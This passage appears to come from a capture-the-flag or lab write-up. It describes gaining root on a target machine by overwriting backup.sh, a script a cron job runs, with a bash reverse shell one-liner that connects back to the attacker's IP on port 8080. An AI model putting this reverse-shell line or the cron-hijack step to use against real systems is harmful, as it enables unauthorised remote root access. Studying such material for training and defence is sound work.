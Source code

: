 From the result, we can see that the backup script is executed by a cron job in the background. 

We will abuse this to gain a reverse shell by replacing the commands in the `backup.sh` script with a bash reverse shell one liner command. So once the backup script is executed again in the background, we should get a reverse shell on our attacker machine.


```bash
bash -i >& /dev/tcp/10.0.2.18/8080 0>&1
```

**Note**: Add this one liner command to replace the command in **backup.sh**

## Pwned

![pwned](/assets/img/root.png)

The cron job executed the script successfully and we got **root** access on the machine :)





